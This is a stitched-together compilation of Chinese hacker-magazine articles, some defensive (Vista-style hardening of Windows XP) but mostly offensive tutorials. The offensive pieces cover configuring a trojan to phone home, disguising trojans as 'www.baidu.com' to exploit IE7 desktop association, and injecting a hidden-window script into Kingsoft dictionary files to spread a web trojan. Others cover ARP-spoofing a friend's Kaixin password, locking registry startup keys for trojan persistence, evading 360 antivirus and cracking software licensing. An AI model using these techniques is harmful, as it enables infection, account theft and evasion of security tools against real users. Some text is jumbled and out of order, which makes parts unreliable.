我们从网站主页的“管理菜单”中下载软件（或通过搜索下载）。安装过程较简单，完成后运行软件，在登录处输入注册账号和密码，点击“连接”按钮；连接成功后会在服务器设置中显示相关信息，服务器设置框中以黄灯作为已经连接好的标志，如图5。

如果我们也建立了内部站点，那么现在整个局域网就都可以建站了。但为了安全起见，我们还要进行“安全设置”，正所谓“肥水不流外人田”，点击“增加”，增加我们自己的内部 IP 地址和端口，如图6。


#### 三、木马的配置

打开 pashare，我们来创建一个服务端，在配置的时候一定要注意细节哦。我们的上线地址可不是“http://swantest.xinshi.net”，而是“swantest.xinshi.net”。我当初就是犯了这个错误，经过好长时间才明白过来。还有一点，如果这个地址是从图2中复制过来的话，一定要注意复制过来的地址后面多出了一个空格，我们要手工去掉，不然也是不可能上线的。还有就是端口必须是“80”，反正一定和之前填写的端口一致，如图7。


我们生成一个服务端程序，然后双击运行来看一下，是不是能上线呢？如果一切都按照我的步骤来的话，是肯定能上线的，如图8。


“信使网络通”等内网建站软件的功能主要就是把我们的内部 IP 地址以域名形式来映射到外网中。当用户访问域名的时候，通过域名就可以知道是谁创建了它，又因为域名的用户正与服务器进行着通信，所以就可以把此用户登录的数据转发出来，当然是 80 端口的数据包。此方法的好处就是不再进行域名更新，直接使用软件连接上服务端就可以了，端口映射当然也不用了，不过据说肉鸡的上线数目达到 5 个，屏幕监控功能就会失效。

> （文章中涉及到的信使网络通的安装程序，请大家到 X 的论坛来下载）

### 让XP学会Vista的安全技能


网上云：XP 的技术支持会到 2014 年 7 月，也就是说在很长一段时间内我们可以继续使用 XP。这不仅说明用户已经习惯了 XP，而且也说明 XP 的确是一个成功的操作系统。正如哲学家黑格尔说的一样：存在就有道理。Vista 出来了很久，现在连 Windows 7 的盗版光盘都已经在电脑城里乱飞了，难道 Vista 就真的没有 XP 好？还是因为我们的习惯让我们迷失了双眼？

安全相关的东西都有值得 XP 学习的地方，那么我们能不能把它的一些优点让 XP 与其兼容以适应我们的习惯呢？答案是肯定的！

#### 一、让 Code Integrity 入驻 XP

Code Integrity（代码完整性）是 Vista 新安全特性中比较不错的一个，它在一定程度上可以有效防止 rootkit、驱动级恶意程序，规定了系统在每次执行一些系统关键文件时，都会对要执行的文件进行 hash 对比，在 hash 值一样的情况下才会执行程序。它与 `dir /s /a *.exe >1.txt` 进行备份所使用的思想是一样的，但是效果却不一样。使用 dir 命令对比系统文件只能检测到系统增多或者减少的程序，根本不可能找到替换了的程序。另外，在 Windows 的 Cmd.exe 中，只要文件是一个 PE 格式的文件，不管你的后缀是 .txt 还是 .exe，都可以通过 `cmd /c *.*` 去执行成功，所以 Code Integrity 机制并不是“花拳绣腿”。那么在 XP 中要如何实现 Code Integrity 的“反侦查能力”呢？

“工欲善其事，必先利其器”，我们要做的第一步就是将系统关键文件进行 hash 计算。当然现在的密码学都是基于克彻霍夫假设基础上的对称公开密钥算法，正因为如此，我们很容易得到各种 hash 的计算工具。本文就推荐两款工具，其中一款为微软自家的 fciv.exe，微软的东西还是值得介绍的，毕竟是“嫡系”工具；另外一款就是功能强大的 fsum.exe。

- 1. fciv.exe

这款工具的功能很不错，它可以将某个文件夹进行 MD5 计算，当系统被更改的时候我们可以用它来对比，从而找出被替换的文件。程序有很多参数，可以在 CMD 下输入 `fciv /?` 查看，限于篇幅这里只介绍几个比较常用的参数。

- 对系统关键文件计算 hash（以 Windows 目录为例）
- 对系统进行 hash 检验

```bash
fciv.exe c:\windows -r -xml system.xml
fciv -v -xml system.xml
```


- 2. fsum.exe

这个工具要比 fciv.exe 强大得多，它可以计算多种 hash 值，连 WinRAR 类似的 CRC32 校验方法都有。我们可以在 CMD 下输入 `fsum /?` 查看详细的使用方法，这里只介绍一些比较常用的参数。

- 对系统关键文件进行 hash 计算

```bash
fsum -r -d c:\windows *.* >1.txt
```

这个程序的速度远远超过上面的 fciv.exe，程序默认使用的是 MD5 算法，当然也可以使用其它参数指明其它的算法，如图2。


- 对系统关键文件进行检验

```bash
fsum -d c:\windows -jf -c f:\玩完\1.txt
```

提示有两个文件 failed，也就是 MD5 不一样。对于这样的文件我们就需要注意了，因为系统盘随时都有垃圾信息产生，所以这里才会提示 failed，如图3。


这里 Windows 目录只是一个简单的实例，在实际使用的时候我们只要将一些特别容易被人替换的程序进行 hash 计算就可以了，比如 sethc.exe、ntldr、hal.dll、drivers 目录下的文件等等。

### 二、让XP拥有Windows Defender

如果将木马病毒和杀毒软件比作是两个交战的国家，那么流氓软件、间谍软件就只能算是“中立”国了。在 Vista 中已经集成了微软的“嫡系”工具“Windows Defender”，用于专门解决“战争中立国”的问题。这个工具我没有与 360 比较过，但是感觉使用 360 的保险箱 + Windows Defender + HIPS + Windows 自带的防火墙是一个不错的个人电脑安全搭配。当然在 XP 中，微软也有相应的版本，只要到官方网站下载就可以了，网上也有相应的破解版。

我们之所以使用 Windows Defender，是由于它灵活强大的功能。首先，它拥有杰出的实时保护功能，程序默认就启用了实时保护功能，一旦检测到恶意软件对系统的危害动作，就会立即弹出警告消息框；其次，程序每天都对系统进行一次快速扫描，以最大限度地保护我们的系统，对计算机上最有可能被感染的硬盘分区进行扫描，例如只扫描系统盘。另外，Windows Defender 的软件更新集成到了 Windows Update 中，无需我们额外留心是否升级到最新定义库，因此可以说这是一个用户基本“不用管”的程序。

exe，然后按照提示输入密码即可，如图5。当然，很多时候为了使用的方便，我们还在“开始”——“运行”栏执行管理程序，这时候就可以直接输入 `su regedit.exe`，按照提示输入密码后也一样能启动程序，这并没有多麻烦。

#### 三、让XP系统也拥有UAC机制

UAC 机制的文章在网上有很多，但是以我菜鸟的观点来看，只不过是我们的一个小习惯导致了它的出现。相信许多人的系统登录账户都是 Administrator，而这样带来的安全问题本质上还是授权与权限的问题。对比一下 Linux 系统，我们就会发现 Linux 中的所有授权机制，在 Windows XP 下都有相应的处理方式。比如在 Linux 系统中，xinet 服务默认在不修改相应配置文件的情况下是不允许 root 账户进行登录；与之对应的 Windows 上的 telnet 服务也可以通过 MMC 或者 Sysinternals 工具包中的 Process Explorer 设置权限，通过权限来限制登录用户。当然上面的这些内容对于普通用户而言是根本不需要了解的，Vista 走的正是这种普通用户的道路，所以它将安全设置、安全操作简单化。在 XP 中我们只要将登录用户设置成一个 user 用户组的成员，就实现了和 UAC 相同的功能。当然这里不是深入探讨 UAC 的机制，我们要做的事情就是如何让 XP 拥有 UAC 相似的功能。


在 Linux 系统中，我们知道 su 程序在输入正确的用户账户后，如果不 exit 退出该 shell 的话，它的权限永远还是 su user 后的权限。那么 Windows 是否可以呢？是可以，但这样并不利于我们的操作，因为每次要提升 explorer.exe 的权限都需要先结束掉这个进程，所以为了方便操作，我觉得 su 一下还是比较简单的。

#### 四、XP也可以实现家长管理功能

Vista 中的家长管理功能看上去和安全不太“沾亲”，但是事物总有多面性，看你在什么时候用或者从什么角度去看了。

最近网上最火的 IT 信息，不外乎绿坝—花季护航软件的事件，但是在 huaidan.org 看到该软件竟然爆出了栈溢出漏洞，着实雷倒了一片人。从安全角度来说，增加额外的第三方软件将有可能带来更多的不安全因素，不过也从这件事上看得出 Vista 中加入家长管理功能也是有“先见之明”的。

在 XP 上要实现这个功能其实相当简单，我们可以用 net 命令的 `/times` 参数来设置用户登录系统的时间，从而实现控制孩子上网的时间，但是这样的设置并不完美。

对于垃圾站点的防范，一方面我们可以通过网上的 hosts 文件屏蔽一部分，另一方面可以通过设置 IE 的分级审查进一步的防范。不过，这些设置都是外在的东西，根本问题还是解决孩子思想的问题，根烂了想开出好的花朵那是不可能的。

在 XP 中我们使用 user 用户组的成员登录 Windows 会带来诸如无法安装程序、访问注册表受限等问题，那么解决的方法一般来说有两种。

- 1. **基于GUI界面的权限提升**

其实 Windows 早就考虑到了这点，使用 user 用户组的成员登录系统时，如果是安装程序等图形界面的操作，我们可以在程序上点右键，选择“属性”——“运行方式”，选择“下列用户”，然后选择运行该程序的用户帐号和相应密码就可以了，如图4。


- 2. **基于命令行界面的权限提升（模拟su程序）**

因为很多时候我们需要运行一些系统管理程序，比如注册表编辑器等。那么，我们不可能再跑到 `%systemroot%\system32` 文件夹下去找到 `regedit.exe`，再通过上面的方法提权运行程序。这时候我们可以编写一个批处理文件，内容为 `@runas /user:administrator %1`，把文件保存为 `su.bat`，并保存到 system32 文件夹下，这样可以不用额外再设置环境变量，而在 cmd 的任何目录下都能运行这个程序了。比如我们要执行 `regedit.exe`，就可以在 cmd 下输入 `su regedit`。

#### 五、让XP也具备强大的网络访问限制

Vista 在网络访问、IE 安全上作了大量的限制。众所周知，安全的一个核心问题就是授权，在 Windows 中具体的表现就是权限设置。我们可以通过一些技巧将非 Administrator 以外的任何用户都设置成不能访问网络。

首先以 Administrator 账户登录计算机，在“开始”——“运行”栏中输入 `gpedit.msc` 打开组策略，依次定位到“用户配置—Windows 设置—Internet Explorer 维护—连接”，在右侧窗口中双击“代理设置”策略项，然后在弹出的对话框中勾选“启用代理服务器设置”，将代理服务器设置为“127.0.0.1”，如图6。这样所有用户都无法使用 IE 浏览器了，我们再把“启用代理服务器设置”前面的勾去掉，这样就不会限制 Administrator 账户了。

“属性”，点击“安全”选项，将除了 System 账户以外的所有用户组都删除掉，然后点击“高级”，将“从父项继承那些可以应用到子对象的权限项目，包括那些在此明确定义的项目”前面的勾去掉，在弹出的窗口中点击“删除”按钮，点“确定”退出后，我们就会发现所有的用户及组都删除了。这时候再点击“添加”按钮，输入 Administrator，并将其所有权限设置为“拒绝”；点击“添加”按钮，把 System 账户添加进去就 OK 了，如图8。


而这种设置只有在 Administrator 的时候才可以访问网络，利于权限的集中。即使某些人添加了管理员账户，除非对方知道我们在这个小细节上作了限制，否则就是想破脑袋也是没有招数的。


我们注销系统，使用一个非 Administrator 账户登录系统，会发现已经无法访问网络了。主要原因就是系统启用了我们刚才设置的代理策略；而 Administrator 用户登录系统时，由于拒绝访问 `C:\WINDOWS\System32\GroupPolicy\User\MICROSOFT\IEAK\install.ins` 文件，所以不会启用 IE 代理设置，也就无法阻止 Administrator 账户访问网络了。这个方法虽然严格，但是网络安全最简单的方法就是不联网。

#### 六、让XP的服务管理更上一层楼

Vista 中的服务管理改进了许多，比如会话隔离。其实 Windows XP SP2 中也有改进，新增了 Local Service 和 Network Service 这两个账户，它们所包含的特权只是 LocalSystem 账户的子集，而以前服务都是以 Local System 的账户身份运行的。虽然相对 Vista 来说 XP 的改进是微小的，但是却给了我们一个方向，就是对服务设置权限……一般来说有两种方法可以快速完成服务的权限设置：一种是 MMC 中的“安全配置和分析”模块，另一个就是通过 Process Explorer.exe 来进行设置。

本文只是将一些简单的 Vista 功能兼容到 XP 中，Vista 的优秀之处还有很多……（本文所涉及到的 fciv.exe、fsum.exe、Windows Defender，大家请到 X 的论坛来下载）

### 深度揭秘IE7桌面关联漏洞

CC米业

某年某月某日，当你抱着本本来到教室上网时，打开了 IE 浏览器，想到百度去搜索一番……这听起来是不是有些太恐怖了，不过这就是 IE7 桌面关联漏洞的实现效果。话说某日我看了一个视频，讲的就是 IE7 桌面关联漏洞（其实这个称呼是我自己编的），感觉挺有意思，于是自己就研究了一下，并且得出了防范方法。好了，下面我们就进入正题吧。

众所周知，Windows 的设计理念就是方便快捷。当我们打开 IE 浏览器，在地址栏中输入“我的电脑”，那么就会直接跳到“我的电脑”界面……这本来是为了方便用户使用，却不料也造成了一个漏洞。为了方便，我就以 Windows 自带的计算器 calc.exe 进行演示，测试环境为 Windows XP SP3 + IE7 + 360 安全卫士……

### 傻瓜黑客

“我的电脑”就能够成功打开，那也就说明 IE7 进行了桌面关联。我们将 calc.exe 放到桌面上，在 IE 地址栏中输入“calc.exe”，Windows 计算器成功地启动了，如图3。可能有小菜要问了，这有什么可利用的呢？大家别急，请继续往下看。

这里有必要普及一下知识：在 Windows 下，所有后缀为 .exe 的文件如果改成 .com 是依然可以运行的。我们举个例子，那个计算器的文件名是 calc.exe，把它改名为 calc.com。现在我们双击运行它，大家可以看到程序成功运行了，并且与 calc.exe 毫无差别，如图4。


好了，我们把它应用到桌面上的 calc.exe 身上，把它改名为 calc.com，在 IE 中输入“calc.com”，也成功地运行了，如图5。大家有没有发现，“calc.com”和网址很像啊？不知道的人肯定会把它看成是网址的。现在大家都知道如何利用了吧！我们把“calc.com”改名为“www.baidu.com”就行了。大家看，我们打开 IE 浏览器输入“www.baidu.com”时，就运行了 Windows 计算器了，如图6。那如果运行的程序不是计算器而是木马呢？呵呵，那就会出现本文开头所讲的恐怖场景了！

我们只要把木马复制到桌面上，并改名为“www.baidu.com”“www.google.com”“www.qq.com”等用户经常访问的网址就行了。不过这有一个小小的缺陷，就是这些文件显示在桌面上，倘若用户在桌面上看到了名为“www.baidu.com”这样的文件肯定会起疑心的，怎么办呢？可以设置文件隐。

### 傻瓜黑客

通常计算机用户是不会开启“显示隐藏文件”的选项，如果再狠一点的话，还可以到网上寻找取消显示隐藏文件的注册表文件来使用。

不细心的人肯定发现不了两项的顺序对调了，如图8。还要在此提醒各位，放在桌面上的必须是你的程序。如果使用快捷方式指向你的程序，本来是可以实现的，但是万恶的360安全卫士会把它当做下载者来阻止其运行，如图9。


图7


图9


图8

最后还要讲讲如何防范了，我提供以下几种方法：

- 1. 在输入网址时要输入完整的网址，比如我们输入完整的“http://www.baidu.com”。为什么呢？因为完整的网址中含有“:”，而文件名是不允许带有“:”的，如图10。  
- 2. 使用非IE内核的浏览器。我建议大家一定要改掉使用IE浏览器的坏习惯，近年来IE漏洞频发，建议使用火狐或谷歌浏览器。  
- 3. 使用IE8浏览。据我实验，IE8已经取消了桌面关联，但是现在安装IE8的用户还非常少。  


图10

我再推荐一个更有意思的方法：先取消显示隐藏文件，然后进入注册表，在“HKEY_CURRENT_USER\Software\Microsoft\Windows\ShellNoRoam\MUICache”下可以看到很多东西，我们找到“不显示隐藏文件和文件夹”与“显示所有文件和文件夹”，把这两项对调一下……这是被我们改了注册表所导致的。

## 浅谈exe2bat的原理

这几日无聊，到黑客X档案论坛上闲逛，看到一个bat文件，运行之后稍等一会儿，发现在该目录下生成了一个exe文件并自动打开运行了，如图1、图2。于是我便想起今年第4期杂志中关于“浅谈exe to bat的实现与应用”的文章，于是我就写下了本文。


图1


图2


```bat
Echo W>>hke1.tmp
Echo q>>hke1.tmp
```

我恍然大悟，原来exe to bat就是把可执行文件先转换为机器语言，然后再复制成类似“e 100 4D 5A 90 00 03 00 00 00 04 00 00 00 FF FF 00 00”的16进制形式，再加上echo等一些基本语句，就生成了bat文件。运行bat之后，批处理就会把这些16进制文本再写入到临时文件中，然后使用debug命令把临时文件中的机器16进制文本再转化为二进制的可执行文件。

在bat文件的末尾，我找到了“debug<hke1.tmp>nul”这句，就是把hke1.tmp里的内容debug成可执行文件，如图4。这证实了我的猜想，至此exe2bat原理就简单地剖析完了，希望对斧子们有所帮助。


通过编辑生成的bat文件后发现，里面基本都是类似于“Echo e 100 4D 5A 90 00 03 00 00 00 04 00 00 00 FF FF 00 00 >>hke0.tmp”这样的语句，如图3。这句的功能就是把一串数据写入到hke0.tmp这个文件中。看着这串数据，再看看bat文件末尾的几句：

```bat
Echo rcx>>hke1.tmp
Echo 1400>>hke1.tmp
Echo n WHS1.tmp>>hke1.tmp
```

（本文所涉及到的EX.exe已收录到光盘中）

### 不用注册也能打的免费电话

孤独

在以前的黑客X档案上曾经介绍过一些可以免费打电话的网站，但我使用后感觉有些麻烦，又是需要注册又是需要看广告的。俗话说得好：“简单就是美”，今天我就给大家推荐一款不用注册就能够拨打的免费电话。

我们使用浏览器打开“http://evaphone.com/”这个网站，界面如图1所示，这个免费电话就叫“Eva-Phone”。

首先在第一个下拉框中选择要拨打到哪个国家去，我选择的是“China”，此时国家区号86就会自动显示在后面的框中，我们在这个区号后面直接输入要拨打的手机号码。（如果是固定电话，还需要在前面加上区号，但要去掉区号前面的“0”，比如我们要拨打的固定电话号码是0134-69226935），那么在86后面直接输入13469226935就行了。输完要拨打的号码，点一下右边的拨出按钮，等待广告结束电话就会拨出去了，如图2。接着会弹出一个“是否允许启用麦克风”的提示窗口，如图3，我们选择“允许”就可以进行通话了。


这个免费电话的通话质量还是不错的，也许是太远的缘故，通话的时候有一点儿延迟，但不影响正常的使用。和大多数免费电话一样，偶尔也会出现电话拨不通的情况。这个免费电话虽然限制每个IP每天只能拨打两次电话（我们可以使用代理），但广告非常少，我们拨通后就可以把网页最小化，不用总看广告了，喜欢的朋友不妨去试一下^_^。


## 金山词霸BUG也来抓肉鸡——

金山词霸是使用比较广泛的一款查询软件，它有灵格斯没有的生词本、滚动背单词、句库、资料库等功能，并且在许多品牌电脑上也属于预装软件。但是拥有庞大装机量的金山词霸其实也有“软肋”，或者西方说法中的“阿喀琉斯之踵”！

```html
marginwidth=0 marginheight=0 SRC="http://www.google.com/" ></IFRAME>
```

搜索的结果如图3所示，金山词霸果然解析了所输入的代码。果然没有对输入的词句进行过滤啊，那么要是输入个网页的地址呢？

#### 一、发现BUG

某日在查询时需要找一短语，于是就在金山词霸里尝试性地按下了Ctrl+F，结果IE的搜索框出现了，如图1。看来金山词霸是调用了IE来显示词典内容。我输入了一个短语，搜索后出现了“暂无与‘××××’相符的解释”，如图2。等一下，作为X的忠实读者，自然想到了一点：既然是IE内核，并且显示所输入的内容，那么把IFRAME输入进去又会如何呢？


```html
<IFRAME NAME="content_frame" width=100% height=300 marginwidth=0 marginheight=0 SRC="http://www.google.com/" ></IFRAME>
```

当时我所使用的金山词霸版本为2009牛津版。我推断：金山谷歌词霸这款装机量更高的免费词典（当时因为加了广告被我抛弃的版本）和本次演示的金山词霸2009牛津版应是相似甚至相同构造，也应当存在此BUG，事实证明推断也是正确的！

#### 二、BUG抓肉鸡实战

那么这个BUG又有什么实际的价值呢？我首先想到的自然就是命令行查词调用了，但查阅资料后发现自词霸2001之后就不支持命令行查词了，真是可惜！来找找别的看，进一步挖掘，发现了在data目录下的几个HTML文件，这是干什么的呢？返回到软件中，找到了这个界面，它就是result_preview.html所对应的，如图4。


但在该页面下按Ctrl+F和点右键都失效了，在浏览器中却没有，似乎是金山公司注意到了这个问题，在程序调用时屏蔽了吧。不要紧，我们构造一个语句，加入HTML的Body域内：

```html
<script>
var tmp=window.open('http://openitd.56dd.com')
</script>
```

在IE和火狐浏览器里打开这个页面都会有提示：阻止脚本/阻止了弹窗，如图5。不过在金山词霸里就悲哀了：开启金山词霸后，进入软件设置界面，我们所写的代码出乎意料地出现在了屏幕上，没有转到阅读样式选单上就出现了，这就证实了：

金山词霸里调用IE时，IE不会启用防护（上方的阻止黄条），如图6。


倘若我们加入一个语句“width=0,height=0”，对，一个隐形的窗口，这样我们的网马就可以在后台执行了！把修改好的HTML文件连同词霸一同打包发布出去，好了，就等着肉鸡上线吧，或是招肉鸡的这个HTML感染掉。即使对方跑了，再次查词时我们的肉鸡又会回来的！大家就好好地利用吧，各位X子一定要记住：大软件也会犯小错误的。

### 局域网轻取开心网账号和密码

一天和同学聊天，他说他正在玩开心网的小游戏，和他在同一个局域网中的一个朋友也玩开心网，而且游戏等级比他要高。于是同学就问我有没有方法得到他那位朋友的开心网账号和密码，要“借”朋友的号玩一下。于是我就实际测试了一下，没想到在局域网中获取开心网的账号和密码是如此地简单。

为了进行测试，我特意申请了一个开心网的账号，用户名是kanxintest@126.com，密码是123456。开心网的登录地址为http://login.kaixin.com/GLogin.do，登录的地方没有看到采用SSL安全登录的选项，估计账号和密码也都是明文传输的。我在虚拟机中开了2个系统，IP地址分别为192.168.44.176和192.168.44.153。其中192.168.44.176作为攻击机，192.168.44.153作为被攻击机。

首先来看经典的嗅探工具xsniff，选用它的主要原因是利用简单，如果利用它能成功嗅探到开心网的账号和密码的话，就不用使用别的工具了。把xsniff.exe文件放到192.168.44.176这台电脑的C盘根目录下，然后打开CMD命令提示符，切换到C盘根目录下，输入命令xsniff.exe -pass回车执行，提示“Sniffing TCP PASSWORD”，开始嗅探密码了，如图1。

这时候来到192.168.44.153这台电脑，登录一下开心网，如图2，结果成功地嗅探到了登录的账号和密码，如图3。这也太简单了，但是xsniff有它的利用条件，就是必须工作在使用集线器HUB搭建的局域网中，这样局域网中的信息是以广播的形式发送的，也就是局域网内所有的计算机都接收相同的数据包。但目前绝大多数局域网都是通过交换机或路由器进行连接的，在这种连接方式中，网络是基于“交换”原理的，交换机不是把数据包发送到局域网中所有的计算机上，而是只发送到目的计算机。因此，上面的工具xsniff就不起作用了，这时就需要使用ARP欺骗嗅探了，用到的工具就是大名鼎鼎的Cain。


我们可以从http://www.onlinedown.net/soft/53494.htm下载到最新版本的Cain4.9.31。Cain的安装很简单，一路点击Next就可以了。Cain需要WinPcap的支持，如果你的电脑没有提前安装WinPcap的话，Cain安装完成后就会自动弹出如图4所示的安装WinPcap的界面，直接点击“Install”安装就可以了。安装完成后运行Cain在桌面上的快捷方式，软件的主界面就出来了，如图5。

因为Cain是国外软件，所以界面是英文的，不过不会英语的朋友也不要怕，嗅探的步骤很简单，我演示一遍大家就能学会了。演示的环境还是虚拟机中的两个系统，还是192.168.44.176作为攻击机，192.168.44.153作为被攻击机，我在192.168.44.176这台电脑上安装了Cain。下面具体来看如何嗅探开心网的账号和密码：切换到“Sniffer”选项下，接着点一下左边数第二个按钮“Start/Stop Sniffer”，在下面空白处点右键，选择“Scan MAC Addresses”，就会列出局域网中除了你的电脑之外的所有在线电脑，已经扫描到了被攻击电脑的IP地址192.168.44.153，如图6。


点一下下面的“ARP”选项，在右上方的小空白区域鼠标单击一下，就会看到软件上面的好像一个加号的“Add to list”按钮变成了可点击状态，点击它。在出来的窗口中左边选择网关的IP地址192.168.44.2，右边选择要嗅探的电脑的IP 192.168.44.153，然后点“OK”按钮就建立了一条嗅探规则，如图7。


点击黄色的“Start/Stop ARP”按钮就开始进行ARP欺骗嗅探了。为了验证效果，我们来到192.168.44.153这台电脑再来登录一下开心网，登录成功后来到攻击机192.168.44.176上，点击Cain下面的“Password”选项，再点击左边的“HTTP”，大家看到已经成功嗅探到了登录开心网的账号和密码，连登录地址都记录下来了，如图8。

通过上面的演示可以知道，在局域网中通过嗅探可以很轻松地得到别人登录开心网的账号和密码，希望开心网能够加强登录的安全性。如果你也在局域网中登录开心网，那就要小心自己的账号了。玩玩还可以，千万不要干坏事啊。

（本文所涉及到的xsniff、Cain已收录到光盘中）


### 快速建立防删除启动项

swan


很多情况下，木马在注册表的操作都会被360安全卫士的实时保护所监控，一旦用户禁止写入注册表，则刚被写入的注册表内容肯定就会被删除。360频繁地读取注册表来检测是否有恶意程序更改注册表，我们除非KILL掉360，不然很难在用户不同意的前提下写入成功。

但任何事情都不可能是绝对的，其实过360也有一些非主流的方法存在。比如我们可以创建一个程序，在用户试图关机的前一刻写入注册表启动项，然后在开机的时候再次删除写入的注册表，以此来躲避360的监控。但这个方法涉及到了编程技术，因此并不适合小菜，而且如果用户非正常关机，这个方法也会失效。接下来，我就介绍一种新的方法，通过创建防删除启动项来抗衡360。

我们首先在注册表中定位一个木马常见的启动项，就以系统服务来进行演示吧。系统服务是木马最喜欢的启动项之一，也是杀毒软件监控的重点内容，如图1。


右键任何一个“SERVE”下的子项目，选择“权限”，在出现的界面里，我们就可以对系统账户设置对注册表的操作权限。对于权限的设置，倒让我想起了在防止U盘病毒的时候，我们采取的通过设置右键双击有关注册表的权限来防止U盘病毒的运行。我本希望设置360所在账户的“删除”权限，可是却发现里面居然什么也没有，而且权限中“允许”下的选择项居然也是灰色的，真是“祸不单行”，如图2。

```text
1 - Administrators 完全访问
2 - Administrators 总访问
3 - Administrators 读和写入访问
4 - Administrator 读、写入、删除访问
5 - Creator 完全访问
6 - Creator 读和写入访问
7 - everyone 完全访问
8 - everyone 总访问
9 - everyone 读和写入访问
10 - everyone 读、写入、删除访问
11 - Power Users 完全访问
12 - Power Users 读和写入访问
13 - Power Users 读、写入、删除访问
14 - System Operators 完全访问
15 - System Operators 读和写入访问
16 - System Operators 读、写入、删除访问
17 - System 完全访问
18 - System 读和写入访问
19 - System 总访问
20 - Administrators 读、写、执行访问
21 - Interactive User 完全访问
22 - Interactive User 读和写入访问
23 - Interactive User 读、写入、删除访问
ok，自己试试，应该很简单了。
```

既然这条路不行，那我们就走另一条路。其实设置注册表权限，并不一定要GUI界面的操作，非GUI界面的程序微软早就提供了，它就是“REGINI”。此程序位于“C:\WINDOWS\system32”文件夹中，如图3。我们先来看regini所对应的格式和权限数值。

在regini.ini的格式：注册表键数值 [更改的权限]


例如 **HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run** [1 7 17]，就是分别设置 Administrators、Everyone、System 这三个用户对注册表“**HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run**”拥有完全访问权限。在图4中显示的则是对应的权限代码。

来测试一下，我在 regini.ini 中设置对系统服务中的“abp480n5”只读的权限，如图5。然后在 CMD 模式下输入 `regini regini.ini`，如图6。

我们再来看看是不是权限已经被设置成了“只读”呢，如图7？


这个方法的运用虽然不能躲避 360 安全卫士等对注册表更改行为的提示，但重要的是可以做到防止其新建立的启动项，而且我们也可以通过设置权限来禁止常见木马对启动项的写入权限，这样重新启动木马就无法运行了。在实际应用的时候，我们只要把特定设计的文件和木马捆绑一起。还要特别注意的是，千万不能在肉鸡或者本机乱禁注册表一些重要项的“只读”权限，以免发生无法进入系统之类的事情。

（本文所涉及到的 regini.exe、regini.ini 已收录到光盘中）

### 突破360木马防火墙与公告条

swan

在看完 CC 米业那篇涉及“桌面关联漏洞”的文章后，发现他本人也遇到了我曾在很早之前实践此漏洞的问题。这个问题就是一个程序的快捷方式改名为网页（比如 www.baidu.com）放在桌面上，一旦运行的话，就会被聪明的 360 安全卫士给拦截到。此拦截主要是利用了其实时监控的“网页防火墙”，如图1。

说到网页防火墙，玩黑的朋友肯定也遇到这样一种情况：在运行一个黑客程序的时候，居然也被它拦截了，比如在运行 Hscan.exe GUI 界面程序的时候，如图2。

遇到一个问题时，我总是试图解决而不是去逃避，这两个问题让我又一次把以前所学的黑客与电脑技术在脑中回顾了一遍。经过很多天的思考总算有了点眉目：实时监控它监控的位置是普通的文件夹，如果我在一个特殊的文件夹下运行一个木马程序的话，不知道还是不是监控？这里所说的特殊文件夹也许会让你想到什么回收站或者 U 盘免疫留下的那个文件夹吧，但我所讲的不是它们，而是“空名文件夹”。

有了理论就应该去实践，这才能有新的突破。那到底如何构建这个没有名字的文件夹呢？方法倒是有几个，最常见的方法就是在命令行下紧接着 `md` 按下键盘上的 Alt 功能键，同时在数字小键盘上直接输入数字“255”，这样一来空格字符的 ASCII 码就会自动出现在 `md` 命令之后，然后单击回车键就创建了。


不过我给大家介绍一个最简单的方法，同样在 CMD 模式下我们创建空名文件夹，命令如图3所示。


一个“空名文件夹”就这么轻松地建立了。这时候我们进入此文件夹把木马文件复制进去运行一下，再看可恶的 360 安全卫士还拦截不？我曾想在 CMD 模式下运行木马来演示成功的过程，却意外地发现在任何文件夹下，在 CMD 模式下运行的木马都是不被拦截的，如图4。

上面提到在“特殊文件夹”运行的木马可以不被 360 的实时监控拦截，其实经过测试这个方法也可以突破 360 保险箱对“某些程序”注入 QQ 进程的拦截。我是利用 Wsyschek 进行测试的，测试过程中还发现在 U 盘免疫那种特殊文件夹下可以运行的程序，是可以突破 360 版本早前的云查杀扫描的，如图5。

运行云查杀后，我们肯定会发现在“活动进程”的扫描位置无法发现我们的 Wsyschek 进程，这也就意味着我们的木马可以在此文件夹下运行的话，突破云查杀那是肯定的事情，如图6。

到这里你肯定还在纳闷，好像桌面关联那个问题没有具体说明白啊？其实道理都是一样的，我们把“空名文件夹”的木马创建桌面快捷方式改为类似 www.baidu.com 就可以了，如图7。还是来测试一下吧，我们在浏览器里输入 www.baidu.com 看看，如图8，程序被运行了。


黑客技术的创新往往是一念之间，我们在学习黑客技术的同时也应该把积累的知识发散一下，往往就会有意想不到的结果了。

### 光华杀毒软件的破解

张海龙


前几天朋友叫我帮他找光华杀毒软件的注册码或破解什么的。以前还真不知道有光华杀毒软件这个东西，查了查才知道其实光华杀毒软件早在 2004 年就有了，前身好像还有点儿历史，现在已经更新到 3.0 了。通过一些论坛做的测试发现这个软件的病毒查杀率还是比较高的，只是在国内三大杀软“照耀”下并不出名。我就从官方网站下载了一个，在网上搜索了半天也没有找到它的注册码，找到一个破解程序但是版本还为 2.0，后来又找到一个破解补丁，但也是 2008 年的老补丁了。万般无奈我只好试着进行了解。

安装这个软件可以看到提示说可以使用体验版，一个月免费使用等。当我打开程序目录，看到病毒库只有区区 20MB 时，心想难道这个还是启发引擎？还是 DNA 技术？不知道，官方网站并没有说明。安装好后打开主程序发现并不像一些软件提示你为试用版，应该是完全版。我把系统的时间调到一个月后软件并没有关闭，退出后再打开时就出现了“软件使用期限已到，请充值后重新使用！”的提示框。我本想直接把主程序中的这个提示框删除掉，但是主程序用的是 PECompact 2.x 加的壳，我用 OD 弄了半天也没有脱掉，看来删除这个提示框是不行的。后来发现要是把主程序修改了，升级时就会从服务器下载一个新的进行覆盖，所以修改主程序并没有太大的意义。


图1

